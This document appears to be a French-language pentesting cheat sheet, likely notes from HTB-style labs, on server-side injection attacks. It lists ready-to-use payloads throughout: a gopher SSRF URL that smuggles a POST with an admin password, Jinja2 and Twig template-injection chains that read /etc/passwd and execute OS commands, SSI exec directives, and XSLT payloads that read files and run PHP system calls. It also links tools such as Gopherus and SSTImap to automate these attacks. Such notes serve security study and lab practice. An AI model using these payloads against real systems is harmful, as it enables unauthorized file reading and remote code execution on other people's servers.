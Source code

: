 ## Server-side request forgery (SSRF)
Quand une application rapporte des ressources d'un endroit distant basé sur une entrée utilisateur.
* `http:\\`, `https:\\`
* `file:\\` lire des fichiers
* `gopher:­\\` envoyer des requêtes POST ou autre (SMTP, ... ). Créer une requête POST normale et URL encode tous charactère spécial.
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
[Gopherus](https://github.com/Esonhugh/Gopherus3) pour automatiser

* 302 Redirect. Peut rediriger un SSRF et contourner une mesure de sécurité sur le lien fournis.

## Server-side Template Injection (SSTI)
Code doit être injecté **avant le rendu** pour qu'il soit exécuté lors de la phase de rendu.
Détection: `${{<%[%'"}}%\.` devrait violer la syntaxe du template.
[PayloadAllTheThings CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
![[diagram.webp]]

Jinja2 = 777777
twig =49

### Jinja2
```jinja2
#config
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}
#Lecture fichier
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
#Exécution de code
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
#Exécution de code (ajouter un param GET "input"
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```
### Twig
Attention aux espaces. Utiliser `\x20` dans les strings.
```twig
{{_self}}
{{ "/etc/passwd"|file_excerpt(1,-1) }}
{{ ['id'] | filter('system') }}
```
### Outils
[SSTImap](https://github.com/vladko312/SSTImap)

## Server-side includes (SSI) Injection
SSI permet de générer du contenu dynamique. Doit pouvoir injecter des directives dans les fichiers.
`<!--#printenv -->`
`<!--#exec cmd="id" -->`

## eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection
Opère sur des données XML. noeuds commencant par xsl `<xsl:template>`

Peut être détecté par `<`
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />

#Lecture de fichiers XSLT 2.0
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
#Lecture si supporte PHP
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
#RCE PHP
<xsl:value-of select="php:function('system','id')" />
```